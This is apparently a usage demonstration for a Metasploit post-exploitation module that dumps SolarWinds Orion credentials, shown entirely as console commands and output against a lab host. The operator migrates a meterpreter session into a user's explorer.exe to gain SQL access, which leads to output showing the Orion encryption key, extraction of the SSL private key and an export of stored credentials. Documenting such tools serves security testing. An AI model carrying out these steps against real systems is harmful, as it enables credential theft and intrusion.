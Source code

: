 ```
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[-] Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Login failed for user 'CESIUM137\WINNING$'..
[-] No records exported from SQL server
[-] Post aborted due to failure: unknown: Could not export SolarWinds Orion database records
[*] Post module execution completed
msf post(windows/gather/credentials/solarwinds_orion_dump) > set AES_KEY 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
AES_KEY => 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
msf post(windows/gather/credentials/solarwinds_orion_dump) > set RSA_KEY_FILE /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
RSA_KEY_FILE => /root/.msf4/loot/20221118091221_default_192.168.101.125_orionssl_457287.key
msf post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_INSTANCE tcp:cornflakes.cesium137.io
MSSQL_INSTANCE => tcp:cornflakes.cesium137.io
msf post(windows/gather/credentials/solarwinds_orion_dump) > set MSSQL_DB SolarWindsOrion
MSSQL_DB => SolarWindsOrion
msf post(windows/gather/credentials/solarwinds_orion_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID    PPID   Name                                     Arch  Session  User                                Path
 ---    ----   ----                                     ----  -------  ----                                ----
 0      0      [System Process]
 4      0      System                                   x64   0
 [...]
 10704  10636  explorer.exe                             x64   1        CESIUM137\operatorman               C:\Windows\explorer.exe
 [...]

meterpreter > migrate 10704
[*] Migrating from 17108 to 10704...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf post(windows/gather/credentials/solarwinds_orion_dump) > export

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[*] MSSQL_INSTANCE and MSSQL_DB advanced options set, connect to SQL using SSPI
[+] SolarWinds Orion SQL Database Connection Configuration:
[+]     Instance Name: tcp:cornflakes.cesium137.io
[+]     Database Name: SolarWindsOrion
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of SolarWinds Orion SQL database to CSV file
[*] Export SolarWinds Orion DB ...
[+] 10 rows exported, 6 unique CredentialIDs
```
